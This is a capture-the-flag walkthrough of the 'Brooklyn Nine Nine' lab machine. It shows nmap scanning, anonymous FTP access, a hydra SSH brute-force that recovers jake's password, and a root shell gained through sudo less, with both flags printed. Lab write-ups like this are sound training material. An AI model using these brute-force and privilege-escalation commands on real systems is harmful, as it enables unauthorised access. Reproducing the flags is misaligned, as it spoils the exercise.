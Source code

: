 #### 1. Scanning

```
nmap -Pn -A 10.10.59.87  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-23 04:20 EST
Nmap scan report for 10.10.59.87
Host is up (0.076s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.170.47
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.04 seconds
```

Open ports are 21 (with a readable and writable file), 22 and 80                                                                           

<br />

#### 2. FTP

I access ftp as `ftp` and without password and download a file

```
ftp 10.10.59.87  
Connected to 10.10.59.87.
220 (vsFTPd 3.0.3)
Name (10.10.59.87:kali): ftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (28.7509 kB/s)
ftp> 
```

which says

```
cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

In this case, I will try to bruteforce password for `jake` using hydra

<br />

#### 3. Hydra

I type

`hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.59.87 ssh`

and quickly find a password

`[22][ssh] host: 10.10.59.87   login: jake   password: 987654321`

<br />

#### 4. SSH to machine

I ssh to machine, login and check permissions:

```
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

User can execute `less` as root, so I check how to escalate at GTFO bins, become root and read a flag:

```
jake@brookly_nine_nine:~$ sudo -u root /usr/bin/less /etc/profile
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```

`user.txt` flag is not in `jake`s home folder but turns out to be in another, `holt`

As I am already root, I ca nread it easily:

```
# ls /home
amy  holt  jake
# cd /home/jake	
# ls
# ls
# cd ..
# cd holt
# ls
nano.save  user.txt
# cat user.txt	
ee11cbb19052e40b07aac0ca060c23ee
# 
```

That was a very easy one.